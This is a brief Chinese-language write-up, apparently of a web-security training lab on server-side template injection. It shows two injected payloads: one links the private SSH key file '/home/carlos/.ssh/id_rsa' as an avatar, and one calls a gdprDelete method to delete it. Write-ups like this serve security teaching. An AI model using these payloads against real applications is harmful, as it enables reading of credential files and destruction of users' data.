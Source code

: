 發現程式碼裡面有一個 `gdprDelete` 可以把東西都刪掉，因此我們可以先把使用者的檔案給 Link 上去之後，再刪掉


```
blog-post-author-display=user.name}}{{user.setAvatar('/home/carlos/.ssh/id_rsa','image/jpeg')}}
```

可以順利的把檔案給連上去，此時可以發現 `id_rsa` 裡面的東西是 `Nothing to see here :)`

接下來執行 `gdprDelete`

```
blog-post-author-display=user.name}}{{user.gdprDelete()}}
```

就過關了
